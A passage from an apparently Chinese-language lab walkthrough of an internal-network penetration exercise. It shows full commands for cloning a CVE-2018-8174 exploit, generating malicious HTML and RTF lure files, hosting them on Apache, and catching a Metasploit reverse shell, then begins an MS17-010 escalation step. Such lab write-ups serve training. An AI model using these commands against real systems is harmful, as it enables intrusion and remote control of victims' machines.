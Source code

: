 3. 在属性对话框中，选择“远程IP地址”时，使用Windows7 的IP地址：172.20.10.177，配置完成后，Win server 2008 对Windows7成功开启1433端口
![](https://upload-images.jianshu.io/upload_images/7216746-df8043e6bfda6032.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

# 内网攻击过程
## 1号机获得2号机的权限
### 利用CVE-2018-8174漏洞获取2号机(Windows 7)权限，添加攻击者用户

1.从github上克隆CVE-2018-8174的EXP到Kali Linux    
    `git clone https://github.com/iBearcat/CVE-2018-8174_EXP.git`
![](https://upload-images.jianshu.io/upload_images/7216746-131c2e12cbfa38ca.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

2.生成恶意html和rtf文件
`cd CVE-2018-8174_EXP/`

`python CVE-2018-8174.py -u http://192.168.114.130/exploit.html -o exploit.rtf -i 192.168.114.130 -p 4444`
![](https://upload-images.jianshu.io/upload_images/7216746-35e332af8c9080c1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

3.将恶意html文件移动到网站根目录，启动apache2服务

`cp exploit.html /var/www/html/`
`service apache2 start`
![](https://upload-images.jianshu.io/upload_images/7216746-5fb45bfeb3543718.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

4.新打开一个终端，生成MSF监听

```
msfconsole -x "use exploit/multi/handler; set PAYLOAD Windows/shell/reverse_tcp; set LHOST 192.168.114.130; set lport 4444; run"
```
![](https://upload-images.jianshu.io/upload_images/7216746-b1b7f72a33457f3b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

5.受害者点击恶意链接

![](https://upload-images.jianshu.io/upload_images/7216746-e62e2ad770109a48.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

6.在kali里接收到了shell，可在meterpreter中管理shell
发现非管理员权限

![接收到反弹的shell](https://upload-images.jianshu.io/upload_images/7216746-70ec2bdd1c77ec7b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![非管理员权限](https://upload-images.jianshu.io/upload_images/7216746-39fe21067ffca550.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

7.使用MS17-010模块进行提权
`use auxiliary/scanner/smb/smb_ms17_010`
![使用ms17-010模块](https://upload-images.jianshu.io/upload_images/7216746-d224b2f1691e6fa8.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在运行该模块之前，需要设置相关选项，我们使用show options查看配	置信息

![show options](https://upload-images.jianshu.io/upload_images/7216746-66dbea9e18331a0f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
